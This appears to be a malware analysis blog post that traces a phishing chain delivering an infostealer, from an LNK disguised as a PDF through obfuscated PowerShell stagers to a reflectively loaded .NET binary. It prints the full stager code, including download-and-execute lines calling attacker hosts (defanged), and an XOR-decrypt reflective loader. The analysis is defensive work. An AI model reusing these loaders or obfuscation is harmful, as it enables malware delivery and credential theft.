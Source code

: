 ## Phishing for InfoStealers

I recently came across a site which hosts multiple zip archives masquerading as PDF documents. The aim is to distribute a second-stage PowerShell script which executes a .NET binary in memory. The binary collects system information and targets software such as web browsers, cryptocurrency wallets, two-factor authentication applications and gaming software.

The file is delivered to the victim via email, which prompts them to download and open the following file:

![image](https://github.com/MZHeader/MZHeader.github.io/assets/151963631/a0451615-f6eb-40e0-85fd-891396665494)

A Zip archive is downloaded, which contains a Lnk file, masquerading with a PDF icon.

PDF Target Path (Defaned): 
```
C:\Windows\System32\msiexec.exe -package hxxPs[:/\]onedrive.live[.]com/download?cid=85B4181C5D4F7514&resid=58504D327740F380%21149&authkey=AIHrvoeE31NvUiI&.msi -qn
```

Upon execution, msiexec would execute with the argument to download and execute a msi file from the OneDrive URL provided.

This downloaded a file called "42WiseAnyConnect.msi", which we can extract a PowerShell script from using lessmsi:

![image](https://github.com/MZHeader/MZHeader.github.io/assets/151963631/76fd615d-1298-47ac-bf25-a9e719da17d3)

PowerShell Script:
``` powershell
.(-join[char[]]((570-465),(266-165),(354-234)))(-join[char[]]((65678-399),(939-856),(959-858),(460-344),(618-573),(926-850),(700-589),(648-549),(283-186),(223-107),(596-491),(1006-895),(308-198),(440-408),(1038-971),(614-556),(332-240),(417-330),(826-721),(849-739),(734-634),(782-671),(619-500),(468-353),(309-217)(466-382),(787-686),(775-666),(724-612),(347-255),(933-846),(972-867),(959-849),(1063-963),(810-699),(897-778),(265-150),(611-544),(1077-963),(321-224),(421-306),(906-802),(528-452),(878-767),(927-824),(423-308),(543-497),(789-679),(1001-948),(960-845),(526-404),(924-838),(784-683),(867-747),(640-588),(361-305),(971-857),(590-535),(616-533),(967-910),(192-122),(656-589),(370-288),(548-450),(783-726),(943-865),(647-578),(226-159),(592-475),(323-313),(400-390),(929-893),(315-227),(883-763),(888-800),(411-324),(520-446),(625-554),(754-648),(775-695),(554-435),(346-226),(370-305),(235-203),(535-474),(633-601),(871-826),(675-569),(389-278),(353-248),(989-879),(725-634),(657-558),(262-158),(387-290),(524-410),(384-293),(860-767),(780-687),(638-598),(149-109),(349-292),(1049-996),(1008-960),(573-528),(480-424),(310-257),(914-863),(929-888),(243-199),(757-717),(945-888),(899-845),(987-935),(474-429),(731-675),(570-516),(859-805),(478-437),(812-768),(914-874),(858-802),(168-118),(560-512),(465-420),(950-895),(603-553),(910-861),(996-955),(966-922),(876-836),(362-313),(595-547),(766-710),(709-653),(906-861),(492-435),(949-893),(696-640),(824-783),(365-321),(611-571),(433-378),(722-668),(608-551),(924-879),(688-634),(726-672),(168-112),(283-242),(566-522),(1015-975),(822-765),(937-886),(995-943),(725-680),(329-273),(430-379),(422-372),(333-292),(463-419),(179-139),(752-703),(1039-991),(277-220),(410-354),(380-335),(443-386),(1052-995),(580-527),(537-496),(519-475),(862-822),(651-594),(441-393),(979-924),(349-304),(229-173),(430-382),(564-513),(970-929),(858-814),(208-168),(1010-958),(646-594),(555-503),(833-788),(349-298),(487-436),(722-665),(290-249),(706-662),(271-231),(596-542),(260-212),(209-161),(837-792),(423-371),(961-904),(442-390),(647-606),(434-390),(161-121),(370-320),(823-771),(541-492),(1041-996),(348-299),(245-194),(887-835),(504-463),(828-784),(334-294),(730-674),(187-132),(1044-989),(639-594),(295-240),(813-759),(1006-949),(731-690),(714-670),(619-579),(422-370),(770-718),(753-699),(220-175),(262-211),(343-292),(820-765),(177-136),(494-450),(583-543),(889-839),(479-424),(997-949),(441-396),(561-512),(458-404),(304-256),(607-566),(952-908),(836-796),(437-385),(531-477),(875-819),(828-783),(900-849),(698-645),(470-415),(527-486),(988-944),(161-121),(408-356),(238-182),(478-428),(281-236),(214-163),(496-441),(216-168),(1006-965),(244-200),(428-388),(161-112),(349-301),(1035-983),(248-193),(649-604),(163-106),(966-915),(287-235),(927-886),(778-734),(869-829),(468-416),(480-427),(1017-967),(150-105),(1051-1000),(1009-958),(367-311),(397-356),(685-641),(583-543),(643-588),(641-590),(463-414),(778-733),(323-269),(189-140),(653-599),(572-531),(162-118),(157-117),(471-421),(705-650),(757-700),(793-748),(814-765),(297-243),(473-422),(536-495),(600-556),(916-876),(494-440),(1037-981),(314-261),(997-952)
(1014-961),(268-214),(178-122),(238-197),(485-441),(707-667),(726-669),(311-260),(461-409),(612-567),(941-885),(261-212),(734-680),(518-477),(438-394),(854-814),(987-933),(939-890),(429-373),(633-588),(231-179),(1018-961),(577-520),(303-262),(167-123),(362-322),(308-258),(502-450),(256-207),(527-482),(631-582),(808-758),(948-899),(686-645),(282-238),(186-146),(774-725),(776-728),(209-156),(813-760),(475-430),(415-358),(571-520),(626-574),(750-709),(650-606),(508-468),(793-744),(684-636),(700-649),(427-371),(873-828),(994-937),(243-194),(202-148),(950-909),(253-209),(344-304),(488-433),(745-693),(253-203),(755-710),(220-166),(224-169),(486-431),(224-183),(993-949),(906-866),(216-163),(922-873),(699-646),(927-882),(1040-988),(547-495),(222-165),(879-838),(1043-999),(207-167),(988-939),(891-836),(217-164),(198-153),(673-624),(904-856),(381-325),(185-144),(200-156),(363-323),(428-372),(739-686),(552-498),(205-160),(908-853),(879-823),(601-545),(529-488),(1037-993),(744-704),(167-118),(158-110),(271-222),(359-304),(816-771),(218-161),(254-202),(560-504),(506-465),(469-425),(503-463),(468-411),(420-372),(354-304),(229-184),(969-913),(200-149),(759-709),(283-242),(503-459),(442-402),(523-467),(939-890),(283-229),(521-476),(186-131),(563-511),(918-865),(153-112),(163-119),(335-295),(406-354),(1049-998),(1045-989),(1043-998),(578-527),(380-326),(593-539),(454-413),(393-349),(640-600),(353-304),(332-284),(414-365),(1038-987),(162-117),(1035-978),(1029-977),(697-649),(442-401),(692-648),(202-162),(753-701),(660-609),(988-933),(194-149),(922-871),(744-690),(922-871),(287-246),(612-568),(643-603),(799-748),(736-681),(679-631),(906-861),(586-536),(730-673),(620-567),(284-243),(166-122),(737-697),(645-593),(170-115),(253-196),(696-651),(845-793),(991-943),(309-258),(1029-988),(370-326),(322-282),(315-263),(803-753),(297-245),(494-449),(778-727),(918-866),(457-402),(409-368),(528-484),(425-385),(459-407),(719-666),(205-150),(972-927),(970-919),(249-194),(1024-967),(570-529),(481-437),(683-643),(731-681),(301-247),(300-250),(424-379),(302-253),(876-820),(293-242),(528-487),(373-329),(213-173),(585-534),(919-866),(956-906),(409-364),(868-818),(474-419),(424-374),(654-613),(848-804),(209-169),(270-215),(204-155),(992-942),(963-918),(548-494),(760-709),(428-379),(148-107),(153-109),(466-426),(648-593),(468-413),(898-845),(235-190),(788-734),(438-381),(1030-979),(366-325),(251-207),(725-685),(1039-985),(727-679),(748-699),(879-834),(559-506),(552-503),(900-844),(262-221),(1025-981),(463-423),(498-447),(393-337),(630-578),(877-832),(177-126),(456-408),(591-543),(702-661),(682-638),(241-201),(605-548),(825-772),(479-428),(575-530),(376-320),(326-272),(283-227),(671-630),(1012-968),(313-273),(497-443),(498-442),(613-556),(876-831),(458-404),(496-448),(858-807),(750-709),(353-309),(847-807),(1016-961),(312-257),(655-598),(190-145),(284-230),(366-309),(711-661),(318-277),(633-589),(321-281),(322-265),(604-551),(419-371),(379-334),(281-225),(981-927),(587-537),(721-680),(852-808),(305-265),(229-175),(838-790),(543-491),(597-552),(371-318),(580-531),(166-113),(427-386),(799-755),(589-549),(859-807),(429-374),(516-465),(533-488),(978
927),(380-324),(850-799),(936-895),(460-416),(190-150),(166-117),(822-774),(589-537),(913-857),(637-592),(593-536),(271-214),(759-702),(598-557),(245-201),(765-725),(926-874),(857-802),(519-463),(990-945),(444-392),(634-584),(649-593),(471-430),(174-130),(557-517),(263-214),(832-778),(540-485),(785-740),(289-240),(241-192),(328-274),(591-550),(309-265),(719-679),(559-502),(553-499),(975-919),(568-523),(181-124),(580-531),(274-220),(523-482),(527-483),(207-167),(556-504),(520-470),(551-502),(402-357),(583-532),(545-491),(1035-979),(291-250),(948-904),(751-711),(600-544),(939-891),(761-713),(420-375),(1013-958),(804-752),(507-453),(331-290),(196-152),(151-111),(624-570),(895-844),(705-655),(622-577),(225-172),(398-343),(437-382),(496-455),(618-574),(255-215),(930-877),(208-157),(260-210),(808-763),(270-218),(445-390),(512-458),(247-206),(834-790),(203-163),(829-773),(807-751),(639-585),(882-837),(537-481),(841-791),(446-389),(640-599),(422-378),(770-730),(816-762),(291-235),(221-171),(751-706),(551-497),(164-113),(165-113),(400-359),(854-813),(757-747),(424-388),(236-157),(976-899),(842-774),(656-586),(299-196),(477-370),(649-566),(479-404),(644-540),(347-243),(843-740),(871-772),(261-229),(956-895),(706-674),(774-734),(703-654),(693-647),(286-240),(752-703),(331-281),(897-865),(923-799),(413-381),(490-420),(410-299),(624-510),(204-135),(579-482),(393-294),(276-172),(178-133),(1029-950),(377-279),(1073-967),(258-157),(974-875),(397-281),(540-508),(529-406),(476-444),(188-117),(502-401),(1084-968),(515-470),(708-626),(543-446),(954-844),(430-330),(638-527),(519-410),(915-883),(641-596),(216-143),(871-761),(472-360),(738-621),(969-853),(774-695),(526-428),(616-510),(705-604),(517-418),(873-757),(642-610),(1012-976),(903-815),(278-158),(573-485),(457-370),(703-629),(687-616),(907-801),(393-313),(322-203),(269-149),(593-528),(262-216),(1014-930),(391-280),(174-107),(877-773),(335-238),(315-201),(633-568),(869-755),(216-102),(555-458),(386-265),(887-847),(911-870),(138-106),(313-188),(315-274),(383-373),(232-222),(892-856),(1024-939),(226-152),(370-267),(676-594),(804-696),(595-498),(808-739),(1063-986),(996-913),(361-329),(275-214),(612-580),(389-318),(1091-990),(480-364),(589-544),(1034-952),(402-305),(759-649),(974-874),(918-807),(1072-963),(877-845),(558-513),(691-614),(721-616),(519-409),(550-445),(803-694),(619-502),(925-816),(560-528),(303-254),(830-778),(781-749),(779-734),(476-399),(611-514),(796-676),(968-863),(628-519),(538-421),(863-754),(498-466),(656-599),(1028-978),(747-737),(357-274),(424-308),(536-439),(567-453),(289-173),(821-776),(273-190),(285-177),(1000-899),(1019-918),(416-304),(864-832),(834-789),(721-638),(383-282),(224-125),(492-381),(347-237),(430-330),(1103-988),(510-478),(976-940),(745-660),(444-370),(272-169),(320-238),(472-364),(205-108),(432-363),(855-778),(685-602),(909-899),(402-366),(539-473),(853-781),(485-363),(592-527),(541-420),(341-276),(609-538),(897-808),(1075-976),(135-103),(427-366),(153-121),(940-895),(721-615),(785-674),(533-428),(896-786),(202-111),(1084-985),(437-333),(838-741),(238-124),(936-845),(666-573),(767-674),(893-853),(146-106),(422-368),(1026-976),(964-915),(707
662),(926-873),(474-425),(630-575),(849-808),(725-681),(809-769),(824-767),(192-136),(727-674),(800-755),(582-526),(173-119),(337-280),(660-619),(555-511),(873-833),(324-272),(877-824),(496-447),(981-936),(826-775),(494-443),(661-608),(749-708),(663-619),(240-200),(970-921),(284-236),(863-813),(539-487),(395-350),(599-542),(532-483),(322-272),(269-228),(649-605),(829-789),(932-880),(305-252),(744-693),(613-568),(382-331),(474-417),(939-886),(580-539),(657-613),(891-851),(790-736),(953-896),(877-822),(666-621),(696-642),(530-477),(906-858),(664-623),(473-429),(203-163),(869-812),(617-565),(752-696),(863-818),(530-473),(273-225),(385-336),(497-456),(211-167),(162-122),(745-690),(812-764),(375-324),(204-159),(1036-982),(505-452),(457-405),(860-819),(190-146),(574-534),(694-644),(209-156),(372-319),(1006-961),(325-275),(196-148),(347-297),(163-122),(899-855),(1033-993),(225-170),(683-634),(256-204),(200-155),(1047-993),(613-559),(389-337),(562-521),(760-716),(789-749),(186-132),(506-450),(882-827),(242-197),(1008-954),(835-783),(644-595),(213-172),(462-418),(207-167),(1045-991),(606-550),(839-782),(931-886),(266-212),(556-505),(708-657),(415-374),(345-301),(625-585),(416-367),(349-292),(1015-963),(326-281),(403-354),(989-938),(901-846),(422-381),(824-780),(179-139),(165-110),(321-270),(517-460),(898-853),(414-360),(256-199),(308-257),(703-662),(410-366),(448-408),(660-610),(590-539),(530-477),(225-180),(800-751),(353-297),(240-186),(548-507),(200-156),(873-833),(806-753),(339-285),(313-259),(429-384),(513-460),(561-513),(178-121),(627-586),(615-571),(537-497),(427-370),(1012-956),(412-360),(412-367),(265-208),(157-107),(599-543),(934-893),(526-482),(371-331),(697-640),(571-523),(882-828),(457-412),(818-762),(421-367),(495-447),(187-146),(267-223),(520-480),(360-306),(452-395),(874-821),(462-417),(693-639),(158-106),(587-534),(815-774),(730-686),(722-682),(400-346),(226-177),(610-556),(891-846),(1027-974),(689-635),(711-657),(840-799),(220-176),(1014-974),(518-466),(508-459),(575-518),(157-112),(631-580),(307-253),(202-150),(877-836),(768-724),(609-569),(733-676),(596-548),(980-923),(829-784),(398-342),(646-593),(363-314),(944-903),(464-420),(344-304),(647-591),(785-731),(391-339),(975-930),(714-658),(308-259),(828-779),(646-605),(821-777),(812-772),(267-210),(1036-981),(720-664),(727-682),(428-371),(338-287),(861-813),(629-588),(209-165),(855-815),(413-361),(244-196),(636-587),(161-116),(952-901),(920-867),(230-179),(948-907),(434-390),(870-830),(177-127),(458-408),(528-472),(902-857),(210-161),(1024-968),(677-629),(184-143),(731-687),(348-308),(911-862),(287-239),(471-423),(870-815),(582-537),(442-385),(868-814),(361-313),(534-493),(1012-971),(574-564),(494-458),(948-867),(875-795),(630-508),(939-853),(908-806),(650-584),(876-797),(930-841),(604-497),(490-458),(1045-984),(644-612),(701-665),(572-506),(905-833),(520-398),(792-727),(638-517),(806-741),(633-562),(454-365),(713-614),(564-532),(222-179),(425-393),(325-289),(343-264),(549-472),(299-231),(827-757),(353-250),(806-699),(577-494),(965-890),(205-101),(504-400),(865-762),(550-451),(815-805),(721-685),(442-330),(196-108),(575-493),(508-392),(548-434),(1051
981),(416-346),(807-702),(814-724),(1055-981),(1062-940),(778-692),(273-241),(641-580),(746-714),(687-616),(794-693),(969-853),(247-202),(406-324),(1022-925),(921-811),(770-670),(751-640),(626-517),(574-542),(172-127),(993-916),(752-647),(725-615),(725-620),(679-570),(496-379),(877-768),(263-231),(442-392),(234-183),(509-477),(207-162),(794-717),(264-167),(977-857),(335-230),(223-114),(648-531),(482-373),(1000-968),(455-399),(373-324),(797-787),(960-877),(954-838),(239-142),(430-316),(497-381),(504-459),(231-148),(980-872),(494-393),(746-645),(774-662),(999-967),(971-926),(1017-934),(697-596),(932-833),(565-454),(366-256),(920-820),(800-685),(702-670),(166-130),(1078-966),(211-123),(1050-968),(358-242),(430-316),(1031-961),(261-191),(1067-962),(277-187),(199-125),(646-524),(808-722),(294-284),(369-359),(278-242),(334-212),(362-272),(1032-912),(476-397),(441-355),(942-823),(1009-944),(374-273),(568-536),(488-427),(956-924),(492-419),(1051-941),(1097-979),(321-210),(645-538),(1004-903),(1034-989),(602-515),(380-279),(643-545),(677-595),(366-265),(701-588),(691-574),(534-433),(1018-903),(436-320),(151-119),(553-508),(941-856),(576-461),(428-327),(975-909),(288-191),(686-571),(392-287),(756-657),(1064-984),(203-106),(672-558),(543-428),(602-497),(491-381),(369-266),(167-135),(672-627),(512-427),(583-469),(278-173),(1014-982),(411-375),(548-467),(690-610),(474-352),(582-496),(630-528),(699-633),(502-423),(238-149),(213-106),(723-713),(950-914),(337-248),(508-438),(624-558),(738-668),(650-530),(230-147),(801-695),(796-729),(745-643),(675-565),(937-870),(490-458),(657-596),(483-451),(651-560),(777-694),(509-388),(1110-995),(740-624),(745-644),(360-251),(366-320),(290-206),(568-467),(340-220),(229-113),(760-714),(230-161),(228-118),(237-138),(978-867),(251-151),(814-709),(1004-894),(387-284),(839-746),(516-458),(729-671),(378-293),(452-368),(968-898),(752-696),(739-693),(281-210),(1064-963),(239-123),(467-384),(348-232),(247-133),(627-522),(1030-920),(452-349),(910-870),(598-562),(937-815),(468-378),(476-356),(199-120),(602-516),(644-525),(210-145),(731-630),(758-712),(689-622),(670-559),(290-180),(670-554),(966-865),(304-194),(1042-926),(511-470),(348-338),(375-365),(753-680),(586-476),(944-826),(420-309),(562-455),(299-198),(293-248),(842-773),(560-440),(914-802),(403-289),(782-681),(1043-928),(551-436),(979-874),(1068-957),(813-703),(830-798),(280-235),(464-397),(1038-927),(835-726),(846-737),(664-567),(547-437),(775-675),(736-704),(725-689),(642-553),(309-239),(425-359),(393-323),(992-872),(277-194),(342-236),(571-504),(734-632),(1062-952),(993-926),(447-437),(630-620),(234-151),(825-709),(406-309),(912-798),(286-170),(379-334),(413-330),(723-615),(1011-910),(636-535),(227-115),(815-783),(151-106),(900-817),(686-585),(668-569),(1107-996),(476-366),(796-696),(335-220),(357-325),(839-785),(573-525),(911-863),(125-115),(785-775),(579-497),(498-397),(594-485),(613-502),(945-827),(578-477),(177-132),(576-503),(623-507),(788-687),(406-297),(408-376),(512-467),(315-235),(670-573),(478-362),(466-362),(834-802),(609-573),(928-848),(501-418),(330-263),(796-685),(323-214),(286-177),(841-744),(291-181),(555-455),(409-329),(271
174),(649-533),(717-613),(927-895),(559-514),(746-676),(1087-976),(683-569),(839-740),(1092-991)))
```

We can deobfuscate this simply by using an echo command before the command block, which gives us the following:

``` powershell
.
iex
﻿Set-Location C:\Windows\Temp\WindowsCrashLogs.n5szVex48r7S9FCRb9NECu

$XxXWJGjPwxA = -join[char[]]((950-853),(964-866),(820-721),(1088-988),(769-668),(934-832),(1098-995),(907-803),(444-339),(600-494),(241-134),(877-769),(446-337),(270-160),(468-357),(482-370),(1047-934),(452-338),(731-616),(279-163),(685-568),(934-816),(618-499),(241-121),(1055-934),(1038-916),(742-677),(515-449),(175-108),(856-788),(1017-948),(902-832),(816-745),(438-366),(1013-940),(437-363),(370-295),(479-403),(424-347),(457-379),(262-183),(352-272),(712-631),(775-693),(601-518),(384-300),(953-868),(689-603),(779-692),(950-862),(604-515),(473-383),(1048-999),(478-428),(167-116),(968-916),(421-368),(800-746),(632-577),(532-476),(886-829),(682-634))
$OMDFgkSKhhgc = (1..12 | ForEach-Object { Get-Random -InputObject $XxXWJGjPwxA.ToCharArray() })

$UJgRlaEMS = Get-Random -Minimum 14 -Maximum 92
Start-Sleep -Seconds $UJgRlaEMS
$BHzAyAGYc = -join[char[]]((621-517),(985-869),(451-335),(1024-912),(453-395),(697-650),(948-901),(703-654),(255-202),(714-664),(687-641),(689-633),(194-137),(739-693),(235-186),(566-509),(984-928),(906-860),(695-645),(616-566),(419-364),(909-851),(864-811),(978-930),(401-353),(228-180),(1007-960))
$QPzVfBOYk = $BHzAyAGYc + $OMDFgkSKhhgc
$pXRtrFFiZJzV = Get-Random -Minimum 23 -Maximum 81
Start-Sleep -Seconds $pXRtrFFiZJzV

$zZxOVwAe = Invoke-WebRequest -UseBasicParsing -Uri $QPzVfBOYk
$YFBFxSjCfnC = [System.Text.Encoding]::UTF8.GetString($zZxOVwAe.Content)

Invoke-Expression -Command $YFBFxSjCfnC

Start-Sleep -Seconds 600

Remove-Item -Path $PSCommandPath -Force
```

We can work out the variables using a similar method, we'll echo the join[char] string, and convert the output from decimal to ASCII.

![image](https://github.com/MZHeader/MZHeader.github.io/assets/151963631/116468c3-948a-4dee-bb3d-bf702d0ee877)

![image](https://github.com/MZHeader/MZHeader.github.io/assets/151963631/f33f098b-ad0c-4fb0-9e85-f624dd3db7e5)



[-] $XxXWJGjPwxA = abcdefghijklmnopqrstuvwxyzABCDEFGHIJKLMNOPQRSTUVWXYZ1234567890

[-] $BHzAyAGYc = hxxp[://]152.89.198[.]227:5000/

Essentially the script is downloading and executing the content from the IP:Port above, with a random 12-character string URI

The script which lives there is the following:

``` powershell
Set-Location C:\Windows\Temp\WindowsCrashLogs.n5szVex48r7S9FCRb9NECu

$rnd = Get-Random -Minimum 13 -Maximum 91
Start-Sleep -Seconds $rnd

$randomFunctions = @(
    { return [math]::Pi * (Get-Random -Minimum 0 -Maximum 100) },
    { return [guid]::NewGuid().ToString() },
    { return Get-Random -Minimum 0 -Maximum 100 }
)

$randomFunction = Get-Random -InputObject $randomFunctions`

try {
    $dotNetVersion = (Get-Command 'dotnet').Version.Major
    if ($dotNetVersion -ge 4) {
        Write-Host "Installed Version .NET Runtime: $dotNetVersion"
        Start-Process -FilePath "powershell" -ArgumentList "-Command IEX(Invoke-WebRequest -UseBasicParsing 'hxxps[://]www.fuchs.com[.]sd/media/media/js/ap4.ps1')" -NoNewWindow
    } else {
        Write-Host "$randomValue"
        Start-Process -FilePath "powershell" -ArgumentList "-Command IEX(Invoke-WebRequest -UseBasicParsing 'hxxps[://]www.fuchs.com[.]sd/media/media/js/ap2.ps1')" -NoNewWindow
    }
} catch {
    Write-Host "$randomValue"
    Start-Process -FilePath "powershell" -ArgumentList "-Command IEX(Invoke-WebRequest -UseBasicParsing 'hxxps[://]www.fuchs.com[.]sd/media/media/js/ap2.ps1')" -NoNewWindow
}

$rnd2 = Get-Random -Minimum 12 -Maximum 73
Start-Sleep -Seconds $rnd2


Remove-Item $PSCommandPath -Force

```

The main takeaway from this is that the script checks the .NET version of the victim host, the outcome of which decides which script will be executed.

Next stage:

``` powershell
[byte[]] $binary = (Long Byte Arary)

# [Net.ServicePointManager]::SecurityProtocol +='tls12'
$guid = (Get-ItemProperty -Path HKLM:\SOFTWARE\Microsoft\Cryptography).MachineGuid
$config = (new-object net.webclient).downloadstring("hxxp[://]45.129.199[.]204/index.php?id=$guid&subid=ezzcAvVW").Split('|')
$k = $config[0];

for ($i = 0; $i -lt $binary.Length ; ++$i)
{
	$binary[$i] = $binary[$i] -bxor $k[$i % $k.Length]
}

$sm = [System.Reflection.Assembly]::Load($binary)
$ep = $sm.EntryPoint


$ep.Invoke($null, (, [string[]] ($config[1], $config[2], $config[3])))
```
The following actions are performed by the script:

[-] Retrieves the MachineGuid from the Windows registry: $guid = (Get-ItemProperty -Path HKLM:\SOFTWARE\Microsoft\Cryptography).MachineGuid

[-] Retrieves 3 values from 'hxxp[://]45.129.199[.]204/index.php?id=$guid&subid=ezzcAvVW' and assigns them to the $config array.

[-] Performs a bitwise XOR operation (-bxor) on the binary array with the first value.

[-] Loads the binary data as a .NET assembly using [System.Reflection.Assembly]::Load($binary).

[-] Accessing the entry point of the loaded assembly: $ep = $sm.EntryPoint.

[-] Invokes the entry point of the assembly with the three values: $ep.Invoke($null, (, [string[]] ($config[1], $config[2], $config[3]))).

The values are as follows:

zpsoJEKDxaCoTLVurobI|ezzcAvVW|hxxp[://]45.129.199[.]204/index.php|

We know that the first value is the XOR key, so we can use this to retrieve the binary from the byte array using CyberChef.

![image](https://github.com/MZHeader/MZHeader.github.io/assets/151963631/50343d38-5655-4491-b786-f72712eb31ee)

The binary can be reviewed in DNSpy as it is a .NET binary, however, it is extremely obfuscated as it has been protected with ConfuserEx.

![image](https://github.com/MZHeader/MZHeader.github.io/assets/151963631/c2fa5c5d-54e7-4874-a240-20168cd6fbc8)

Therefore, we will take the dynamic approach.

To be able to execute this binary without an internet connection, I've hardcoded the config and changed the C2 address to localhost.

![image](https://github.com/MZHeader/MZHeader.github.io/assets/151963631/98544282-3be6-407d-a28b-183801d7e5e8)

Upon execution, we can see POST requests are sent to the hardcoded C2 address
```
POST /index.php HTTP/1.1
Host: 127.0.0.1
Content-Length: 86407
Expect: 100-continue
Connection: Keep-Alive
```

Investigating with ProcMon we see the file events we would expect from an infostealer, touching files which contain sensitive information such as credentials, and extensions associated with 2FA, password management and crypto wallets.

![image](https://github.com/MZHeader/MZHeader.github.io/assets/151963631/5844ee7d-47ec-405d-a61a-e0f26c1de989)







